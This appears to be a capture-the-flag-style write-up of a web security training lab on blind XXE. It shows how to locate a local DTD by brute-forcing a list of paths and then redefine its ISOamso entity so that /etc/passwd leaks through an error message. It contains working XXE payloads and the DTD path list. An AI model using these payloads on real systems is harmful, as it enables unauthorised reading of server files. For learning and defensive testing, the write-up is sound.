






# Exploiting XXE to retrieve data by repurposing a local DTD

## Lab Description :


## Overview :
The preceding technique [using external entities to retreive data by inducing error messages] works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the DOCTYPE element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. As per the XML specification, this is permitted in external DTDs but not in internal DTDs. (Some parsers might tolerate it, but many do not.)

In blind XXE vulnerabilities when out-of-band interactions are blocked, You can't exfiltrate data via an out-of-band connection, and you can't load an external DTD from a remote server.

In such cases we can perform the following steps,

Find any local DTD's present in the server.
Redefine/Overwrite the entity in a local DTD file found with a payload to retreive /etc/passwd.
Induce an error in the payload (non-existent resource) , so that in the response we get the error along with the contents of /etc/passwd.
Payload - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#windows-local-dtd-and-side-channel-leak-to-disclose-http-responsefile-contents

## Solution :
Clicking on checkstock feature sends the following request,
```html
POST /product/stock HTTP/2
Host: 0a2600c803d5054782fe938700bd00e8.web-security-academy.net
Cookie: session=wDrayLHAxtyDwXHTFHEpvEYW5kFaS3zu
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a2600c803d5054782fe938700bd00e8.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a2600c803d5054782fe938700bd00e8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

Identify which local DTD is present on the server -
First let's declare a DOCTYPE with an external entity pointing to a file that actually exist

``<!DOCTYPE example [<!ENTITY % file SYSTEM "file:///etc/passwd"> %file;]>``

We get this XML parsing error in response.



What if we gave an non-existent file ? with a modification in the DOCTYPE

<!DOCTYPE example [<!ENTITY % file SYSTEM "file:///doesnotexist"> %file;]>
This time we get a File not found error.



With this information that we've enumerated, we can bruteforce the files with a list of known and available DTD's to find which DTD's exist and which do not.

Reference -

Blog post on repurposing a DTD - ``https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/``
```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
Send the request to Intruder & add the file:/// position to bruteforce.
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [<!ENTITY % file SYSTEM "file://§/donotexist§"> %file;]>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
 </stockCheck>
```

Add payload as list of these DTD's to bruteforce to find which of the DTD's which are existing

Uncheck the URL encode characters option


Start attack.

From the result , we can see that only 2 DTD's are present on the server
```
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
```


Now we need to find what entities are defined in that particular DTD to overwrite them. For this we have to search online & do some research.

For the sake of completing this lab & not wasting time, we have been given the name of the entitiy which is ISOamso.

Overwriting the entitiy in docbookx.dtd -
This payload below overwrites the ISOamso entity in the local DTD named docbookx.dtd with the contents of /etc/passwd.

Then it uses an external entity to retreive an nonexistent file which then induces an error. So we will get the error and the contents of /etc/passwd in the response.
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```



Thus we've solved the lab.




